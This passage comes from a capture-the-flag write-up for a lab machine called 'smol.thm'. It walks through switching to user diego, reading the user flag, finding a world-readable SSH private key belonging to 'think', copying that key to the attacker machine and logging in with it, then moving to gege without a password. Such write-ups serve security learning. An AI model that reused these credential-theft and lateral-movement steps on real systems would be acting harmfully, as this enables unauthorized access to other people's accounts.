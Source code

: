 ![john](images/john2.png)


Switching to `diego`:
```bash
su diego
#Password:[REDACTED]


id
#uid=1002(diego) gid=1002(diego) groups=1002(diego),1005(internal)
```
#### User flag

```bash
cat /home/diego/user.txt 
[REDACTED]
```

### 8. Privilege Escalation

SSH Key Discovery:
```bash
ls -la /home/think/.ssh/id_rsa
#-rwxr-xr-x 1 think think 2602 Jun 21  2023 id_rsa
```

copy the privite key to attacker machine
and connect via ssh:

```bash
chmod 600 think_id_rsa

ssh think@smol.thm -i think_id_rsa

id 
#uid=1000(think) gid=1000(think) groups=1000(think),1004(dev),1005(internal)
```

Lateral Movement to gege:
```bash
find / -group internal 2>/dev/null
/home/gege
/home/xavi
/home/think
/home/diego


su gege
# No password required

id
uid=1003(gege) gid=1003(gege) groups=1003(gege),1004(dev),1005(internal)
```
